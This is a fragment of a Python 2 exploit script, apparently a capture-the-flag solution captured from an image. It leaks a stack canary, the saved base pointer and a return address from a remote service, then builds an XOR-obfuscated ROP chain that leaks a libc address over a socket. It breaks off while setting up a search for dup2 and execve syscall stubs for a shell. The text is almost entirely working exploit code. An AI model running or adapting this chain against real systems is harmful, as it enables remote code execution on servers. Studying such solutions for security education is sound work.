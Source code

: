 ```python
    print "Leaking canary", 
    canary = leak_n_bytes(payload, 8)
    print "{}".format(hex(canary))

    print "Leaking old RBP"
    old_rbp = leak_n_bytes(payload + p64(canary ^ Ds) , 8)
    print "{}".format(hex(old_rbp))

    print "Leaking return address"
    ret_addr = leak_n_bytes(payload + p64(canary ^ Ds) + p64(old_rbp ^ Ds) + chr(ord("\xcf") ^ 0xd), 7)
    print "{}".format(hex(ret_addr))

    text_section_base = ret_addr & 0xfffffffffffff000
    text_section_leave_ret = text_section_base + 0xc5c
    buffer_addr       = old_rbp - 0x480

    gadget_pop_rsi_pop_r15_ret = text_section_base + 0xf71
    gadget_pop_rdi_ret         = text_section_base + 0xf73
    gadget_pop_rdx_ret         = text_section_base + 0xb53

    text_section_write_got = text_section_base + 0x202020
    text_section_write_plt = text_section_base + 0x910

    # After leaking the necessary values,
    # We create a new payload
    payload = "davide" + "AA"

    payload += p64(gadget_pop_rdi_ret ^ Ds)
    payload += p64(0x4 ^ Ds)
    payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
    payload += p64(text_section_write_got ^ Ds)
    payload += p64(0x1337)   # pop r15, dont-care
    payload += p64(gadget_pop_rdx_ret ^ Ds)
    payload += p64(0x8 ^ Ds)
    payload += p64(text_section_write_plt ^ Ds)


    # Pad to the end of buffer
    payload += "B" * (1032 - len(payload))

    payload += p64(canary ^ Ds)
    payload += p64(buffer_addr ^ Ds)
    payload += p64(text_section_leave_ret ^ Ds)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(SERVER)
    s.recv(4096)  # server hello
    s.send(payload)

    write_libc = s.recv(8)
    print "write@libc:", hex(unpack(write_libc))
    s.close()

    # Libc scan
    libc_page = unpack(write_libc) & 0xfffffffffffff000
    page_size = 0x1000
    dup2_start      = "".join([chr(t) for t in [0xb8,	0x21,	0x00,	0x00,	0x00,	0x0f,	0x05]])
    execve_start    = "".join([chr(t) for t in [0xb8,	0x3b,	0x00,	0x00,	0x00,	0x0f,	0x05]])

    dup2_remote_addr = 0
```